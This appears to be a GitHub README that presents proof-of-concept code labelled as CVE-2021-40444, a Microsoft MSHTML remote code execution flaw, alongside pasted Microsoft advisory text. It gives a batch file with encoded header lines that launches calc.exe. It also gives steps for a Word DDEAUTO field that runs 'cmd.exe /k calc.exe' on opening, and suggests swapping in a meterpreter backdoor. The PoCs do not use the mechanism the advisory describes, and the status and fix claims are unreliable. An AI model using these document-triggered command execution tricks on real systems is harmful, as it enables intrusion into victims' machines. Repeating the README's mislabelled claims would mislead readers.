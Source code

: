 ## [CVE-2021-40444](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40444)

- - - ## Vulnerability: 
- `Microsoft MSHTML Remote Code Execution Vulnerability`
- Tested with malicious `.exe` file 

## Usage and proof:

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-40444/docs/CVE-2021-40444-VLC-PWNED-GIF.gif)

## Executive Summary:

Microsoft is investigating reports of a remote code execution vulnerability in MSHTML that affects Microsoft Windows. Microsoft is aware of targeted attacks that attempt to exploit this vulnerability by using specially-crafted Microsoft Office documents.

An attacker could craft a malicious ActiveX control to be used by a Microsoft Office document that hosts the browser rendering engine. The attacker would then have to convince the user to open the malicious document. Users whose accounts are configured to have fewer user rights on the system could be less impacted than users who operate with administrative user rights.

Microsoft Defender Antivirus and Microsoft Defender for Endpoint both provide detection and protections for the known vulnerability. Customers should keep antimalware products up to date. Customers who utilize automatic updates do not need to take additional action. Enterprise customers who manage updates should select the detection build 1.349.22.0 or newer and deploy it across their environments. Microsoft Defender for Endpoint alerts will be displayed as: “Suspicious Cpl File Execution”.

Upon completion of this investigation, Microsoft will take the appropriate action to help protect our customers. This may include providing a security update through our monthly release process or providing an out-of-cycle security update, depending on customer needs.

Please see the Mitigations and Workaround sections for important information about steps you can take to protect your system from this vulnerability.

UPDATE September 14, 2021: Microsoft has released security updates to address this vulnerability. Please see the Security Updates table for the applicable update for your system. We recommend that you install these updates immediately. Please see the FAQ for important information about which updates are applicable to your system.

--------------------------------------------------------------------------------------------------------------------
## SOURCE:
- - - VLC PoC
```bat
::YAwzoRdxOk+EWAjk
::fBw5plQjdCyDJGyX8VAjFA1RQhKDLmSqEok47fvw++WXnm4rca8cTqqWiOTcca1HuhGwIaob+lllkcgDAlVRfR3L
::YAwzuBVtJxjWCl3EqQJgSA==
::ZR4luwNxJguZRRnk
::Yhs/ulQjdF+5
::cxAkpRVqdFKZSzk=
::cBs/ulQjdF+5
::ZR41oxFsdFKZSDk=
::eBoioBt6dFKZSDk=
::cRo6pxp7LAbNWATEpCI=
::egkzugNsPRvcWATEpCI=
::dAsiuh18IRvcCxnZtBJQ
::cRYluBh/LU+EWAnk
::YxY4rhs+aU+JeA==
::cxY6rQJ7JhzQF1fEqQJQ
::ZQ05rAF9IBncCkqN+0xwdVs0
::ZQ05rAF9IAHYFVzEqQJQ
::eg0/rx1wNQPfEVWB+kM9LVsJDGQ=
::fBEirQZwNQPfEVWB+kM9LVsJDGQ=
::cRolqwZ3JBvQF1fEqQJQ
::dhA7uBVwLU+EWDk=
::YQ03rBFzNR3SWATElA==
::dhAmsQZ3MwfNWATElA==
::ZQ0/vhVqMQ3MEVWAtB9wSA==
::Zg8zqx1/OA3MEVWAtB9wSA==
::dhA7pRFwIByZRRnk
::Zh4grVQjdCyDJGyX8VAjFA1RQhKDLmSqEok47fvw++WXnm4rca8cTqqWiOTcca1HuhGwIao72nkUndMJbA==
::YB416Ek+ZG8=
::
::
::978f952a14a936cc963da21a135fa983
@echo off
START C:\Windows\system32\calc.exe
vlc.bat
```

- - - important.docx PoC:
```docx
- Menu: 
  Insert tab -> Quick Parts -> Field
- Choose 
  = (Formula)
- Set name of the formula: 
  !Welcome! a
- PoC: 
{DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"  }
```

## Conclusion:
- Security is not checked
- Just OPEN :D

## Risk Assessment:
- This may well be a meterpreter malicious backdoor shell file
- This may well be a malicious MSI package or hidden bat file

## Status:
- Low(Medium)

## Fixed: 
- Windows 11
  
## Source:
[href](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-40444)

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/CVE-2021-40444)

## Demo docx:
[href](https://streamable.com/2qa8ff)

## Demo VLC:
[href](https://streamable.com/gh2jio)
